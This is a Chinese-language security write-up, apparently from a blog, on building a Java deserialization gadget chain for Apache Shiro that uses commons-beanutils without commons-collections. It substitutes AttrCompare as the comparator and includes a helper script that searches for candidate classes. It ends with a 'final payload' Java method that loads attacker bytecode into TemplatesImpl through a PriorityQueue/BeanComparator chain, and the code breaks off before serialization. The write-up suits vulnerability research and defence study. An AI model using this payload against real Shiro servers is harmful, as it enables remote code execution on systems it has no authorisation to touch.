 加密编码后尝试,发现服务端报了这样一个错误,为什么Commons-utils会去加载CC里面的类呢

![image-20220321231216837](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220321231216837.png)

原因是BeanComparator方法的初始化方法调用了`ComparableComparator.getInstance()`

![image-20220321231636548](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220321231636548.png)

不过它还有另一个构造方法,可以自己传入一个满足要求的`Comparator`,这个Comparator需要满足两点:1.在shiro默认依赖中或者jdk中存在2.由于需要反序列化,所以需要继承`Serializeable`接口还有`Comparator`接口

做一个脚本,先通过idea找到继承了接口的类,然后复制黏贴到txt文件中(先把依赖整对,别把别的依赖里面的类搞进去了)

```java
with open (r"C:\Users\MSI\Desktop\test\Serializeable.txt") as f:
    data=f.readline()
    sers=[]
    while data:
        sers.append(data)
        data=f.readline()
with open (r"C:\Users\MSI\Desktop\test\Comparator.txt") as c:
    data=c.readline()
    coms=[]
    while data:
        coms.append(data)
        data=c.readline()
for i in sers:
    if(i in coms):
        print(i)
```

![image-20220321234935305](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220321234935305.png)

找到了如上这些满足条件的类,第一个`AttrCompare`就很好用,它只有默认的无参构造方法

尝试后成功

##### 最终payload

```java
public static void main(String[] args) throws Exception{
        TemplatesImpl templates=new TemplatesImpl();
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates,"aaa");
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        byte[] code= Files.readAllBytes(Paths.get("H:\\java\\classTest\\MyClass.class"));
        byte[][] codes={code};
        bytecodes.set(templates,codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates,new TransformerFactoryImpl());
        BeanComparator beanComparator = new BeanComparator("outputProperties",new AttrCompare());

        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(templates);
        priorityQueue.add(1);
        Class<? extends PriorityQueue> priorityQueueClass = priorityQueue.getClass();
        Field declaredField = priorityQueueClass.getDeclaredField("comparator");
        declaredField.setAccessible(true);
        declaredField.set(priorityQueue,beanComparator);
```